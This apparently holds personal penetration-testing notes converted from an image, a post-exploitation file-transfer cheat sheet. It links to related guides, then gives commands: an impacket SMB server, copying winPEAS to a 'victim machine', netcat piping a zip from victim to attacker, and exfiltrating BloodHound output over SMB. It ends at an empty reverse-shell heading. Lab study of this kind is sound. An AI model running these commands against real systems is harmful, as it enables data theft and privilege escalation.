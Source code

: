 ```{=html}
<!-- -->
```
-   [[https://techmonger.github.io/3/linux-windows-ftp/]{.underline}](https://techmonger.github.io/3/linux-windows-ftp/)

## **File transfer cheat sheet**

-   [[https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/]{.underline}](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)

-   [[https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65]{.underline}](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)

-   [[https://techmonger.github.io/3/linux-windows-ftp/]{.underline}](https://techmonger.github.io/3/linux-windows-ftp/)

-   sudo impacket-smbserver -smb2support test . -\> attacker machine

-   copy \\192.168.119.161\\test\\winPEASx86.exe winPEASx86.exe -\>
    > victim machine

-   copy \\\\192.168.119.161:4444\\test\\winPEASx86.exe winPEASx86.exe

**From linux target to kali machine**

nc -lvp 4444 \> sitebackup2.zip \# kali machine

nc 192.168.45.231 4444 -w 3 \< sitebackup1.zip \# on victim machine

### To transfer the zip file from TARGET WINDOWS TO YOUR KALI you can use a smbserver.

copy 20240723115204_BloodHound.zip \\\\10.10.14.70\\kali

### To run the program in kali from windows machine

-   Kali \> sudo impacket-smbserver -smb2support kali .

-   Windows \> net use \\\\10.10.14.26\\kali

-   Windows \> cd \\\\10.10.14.26\\kali

-   Windows \> .\\winPEASx64.exe cmd fast \> sauna_winpeas_fast

# **Powershell :** 

## **Powershell check environment**

Check powershell running on system 64 or 32

-   \[Environment\]::Is64BitProcess

## **Command powershell to get reverse shell on cmdasp.apsx :** 

